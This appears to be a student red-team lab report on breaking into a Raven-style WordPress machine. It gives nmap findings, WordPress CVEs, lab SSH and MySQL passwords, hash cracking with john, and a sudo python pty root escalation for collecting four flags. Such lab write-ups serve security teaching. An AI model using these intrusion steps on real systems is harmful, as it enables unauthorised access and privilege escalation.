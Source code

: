 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:
![NMAP_110](https://user-images.githubusercontent.com/88590862/145342557-62680bb4-a41f-4420-9fa3-4523293dff36.PNG)


$ nmap #192.168.1.110
  

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp SSH
  - 80/tcp http
  - 111/tcp rpcbind
  - 139/tcp netbios-ssn
  - 445/tcp microsoft-ds
  
The following vulnerabilities were identified on each target:
- Target 1
  - WordPress XML-RPC Username/Password Login Scanner
    - CVE-1999-0502
  - WordPress Pingback Locator
    - CVE-2013-0235
  - Cron WordPress Attacks
  

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
  
  ![wps_scan](https://user-images.githubusercontent.com/88590862/145343295-5365d4c8-fb31-4ebe-a658-993ad4558d0e.PNG)
  
  ![wps_scan_results](https://user-images.githubusercontent.com/88590862/145343306-8ef5e4ef-cea3-4398-81c2-044ef152ba72.PNG)
  
  ![SSH_michael](https://user-images.githubusercontent.com/88590862/145343326-e1e934aa-2401-47ea-b5b5-e2d7a605e4ad.PNG)

  ![where_to_find_flag1](https://user-images.githubusercontent.com/88590862/145342868-8b33ce00-ae83-4e3d-b98d-70795dff48b0.PNG)
  
  ![flag1](https://user-images.githubusercontent.com/88590862/145342878-b438b8f8-f4df-415f-96a5-f8dae8b1fc9b.PNG)

    - **Exploit Used**
      - Open Port 22 SSH with weak password
      - ssh michael@192.168.1.110 
        - password: michael
  
  
- `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
  
  ![flag2](https://user-images.githubusercontent.com/88590862/145343466-e46aff47-7137-4db4-b9e4-b2eeea5aba11.PNG)

    - **Exploit Used**
      - Open Port 22 SSH with weak password
      - ssh michael@192.168.1.110 
        - password: michael
    
    
- `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
  
  ![launching_mysql](https://user-images.githubusercontent.com/88590862/145343714-3bbc986f-ab42-43ac-b265-3aabb4cd3ae1.PNG)
  
  ![login_to_wordpress](https://user-images.githubusercontent.com/88590862/145343726-67824d17-6331-4c48-b0a5-afd13cfd116d.PNG)
  
  ![how_to_find_flag3](https://user-images.githubusercontent.com/88590862/145344202-25d0a22b-5b50-4348-8be5-62c3b6073161.PNG)

  ![flag3](https://user-images.githubusercontent.com/88590862/145343912-7e3d14f8-58f5-4932-8bd9-519172c6be4a.PNG)

    - **Exploit Used**
      - WordPress Configuration, SQL Database
      - mysql -h localhost -u root -p wordpress
        - password: R@v3nSecurity
      - mysql> SELECT * FROM wp_posts;
    
    
- `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
  
  ![mysql_users](https://user-images.githubusercontent.com/88590862/145344444-5aad98f8-9bff-4360-a39e-33ff6b20e037.PNG)

  ![john_results](https://user-images.githubusercontent.com/88590862/145344486-392d3eeb-16fe-44f1-b5ec-91fd701d48f8.PNG)

  ![finding_how_to_run_sudo](https://user-images.githubusercontent.com/88590862/145344544-23d0631e-4211-425a-ab12-91a851d58218.PNG)

  ![escalate_root_python](https://user-images.githubusercontent.com/88590862/145344559-0cf8b073-dd50-47e5-9c91-c727fddd753e.PNG)

  ![flag4](https://user-images.githubusercontent.com/88590862/145344600-90a052c4-61f6-418d-b4da-c04e644c8c8d.PNG)

    - **Exploit Used**
      - Privilege escalation
      - mysql> use wp_users
        - create wp_hashes.txt with users and hashes
          - root@Kali:~# john wp_hashes.txt
      - ssh steven@192.168.1.110
        - password: pink84
          - find out what sudo privilege Steven has: sudo -l
          - escalate to root:
            - sudo python -c 'import pty;pty.spawn("/bin/bash")'
  
